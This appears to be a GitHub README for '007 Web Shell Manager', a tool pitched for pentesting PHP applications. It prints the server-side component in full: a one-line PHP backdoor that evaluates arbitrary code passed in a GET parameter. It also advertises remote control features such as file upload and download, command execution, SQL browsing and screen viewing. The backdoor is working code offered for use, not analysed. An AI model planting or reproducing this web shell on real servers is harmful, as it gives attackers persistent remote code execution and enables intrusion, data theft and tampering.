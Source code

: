 ## 🖤 007 Web Shell Manager 🖤

🌀 007 Web Shell Manager can be used to quickly execute commands on a server while     pentesting a PHP application. 

🌀 Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

🌀 The server-side code :
```php
<?php @eval($_GET["x"]); ?>
```

🌀 Many commands and control features:

  ✔️ File manager (upload, download, archiver, etc)
  ✔️ Command execution
  ✔️ SQL Explorer
  ✔️ Screen Viewer (windows only)
## 📸 Screenshots

![](https://i.imgur.com/QDZ7Hld.png)
